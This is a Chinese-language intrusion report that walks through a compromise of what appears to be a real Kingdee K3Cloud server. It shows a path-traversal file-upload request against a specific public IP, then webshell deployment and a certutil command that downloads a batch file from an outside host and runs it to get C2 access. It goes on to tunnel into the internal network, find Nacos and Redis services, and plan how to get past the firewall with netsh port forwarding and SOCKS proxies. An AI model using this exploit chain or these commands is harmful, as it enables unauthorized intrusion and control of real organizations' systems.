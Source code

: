 ```yaml
---
icon: pen-to-square
date: 2025-06-29
tags: 
title: 内网报告
category:
  - 项目
---
```

## 0x00.入口点
```http
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 59.45.53.150:9888
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=zsqxokga
Accept-Encoding: gzip
Content-Length: 276

--zsqxokga
Content-Disposition: form-data; name="dbId_v"

.
--zsqxokga
Content-Disposition: form-data; name="FID"

2022
--zsqxokga
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/ccc.txt"
Content-Type: text/plain

ccc

--zsqxokga--
```

生成马
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095227.png)

上传成功
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095206.png)
## 0x01.突破隔离内网
```bash
certutil.exe -urlcache -split -f http://110.42.44.69:8084/swt C:\Users\Public\run.bat && C:\Users\Public\run.bat
```
上线命令
![[fscan.txt]]

建立隧道，扫描内网
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250702010409.png)

内网nacos服务
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629100811.png)

## 0x02.成果
在nacos配置文件中，发现内网redis数据库。
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250702003105.png)

## 0x03. 重新搭建内网隧道
两天后，发现vshell失效，并且内网隧道搭建失败,防火墙阻断了来自本远端ip的连接，或是阻断来自控制的内网主机的连接具体原因如下
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250702005609.png)
启动隧道，尝试测试隧道

```bash
┌──(root㉿localhost)-[/etc]
└─# curl --socks5-hostname 120.46.10.222:6028 192.168.30.31/nacos
<head><title>文档已移动</title></head>
<body><h1>对象已移动</h1>可在<a HREF="./k3Cloud/Error.html">此处</a>找到该文档</body>
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250702005829.png)

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250702010726.png)
所有协议访问均被防火墙截断
## 解决方案
| 替代方案                 |
| -------------------- |
| netsh（系统自带）或 plink   |
| FreeCap 或 SocksCap64 |
|                      |

netsh转发远端frps端口流量到其他端口，FreeCap或其他工具作为其他端口的socks5服务器
